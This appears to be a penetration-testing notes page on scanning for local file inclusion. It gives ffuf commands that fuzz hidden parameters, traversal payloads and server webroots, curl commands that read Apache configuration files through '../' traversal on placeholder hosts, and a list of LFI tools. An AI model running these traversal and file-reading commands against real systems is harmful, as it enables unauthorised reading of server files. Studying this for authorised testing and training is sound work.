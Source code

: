 ```yaml
---
layout: default
title: LFI Scanning
permalink: /Web/inclusion_scanning/
---
```


# Automated Scanning
## Fuzzing Parameters
It is important to fuzz for exposed parameters, as they tend not to be as secure as public ones.
```
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```
Once we identify an exposed parameter that isn't linked to any forms we tested, we can perform all of the LFI tests.
### LFI wordlists
There are a number of [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) we can use for the scan. A good start is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt).
```
ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```
## Fuzzing Server Files
### Server Webroot
If we wanted to locate a file we uploaded, but we cannot reach its `/uploads` directory through relative paths (e.g. `../../uploads`). In such cases, we may need to figure out the server webroot path so that we can locate our uploaded files through absolute paths instead of relative paths.
We can fuxx for the index.php file through common webroot paths:
- [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)
- [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)
Depending on our LFI situation, we may need to add a few back directories (e.g. `../../../../`), and then add our index.php afterwords:
```
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```
### Server Logs/Configurations
- [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)
- [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)
```
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```
Then we can try to read the discovered files:
```
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf
```
```
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars
```
### LFI Tools
- [LFISuite](https://github.com/D35m0nd142/LFISuite)
- [LFiFreak](https://github.com/OsandaMalith/LFiFreak)
- [liffy](https://github.com/mzfr/liffy)
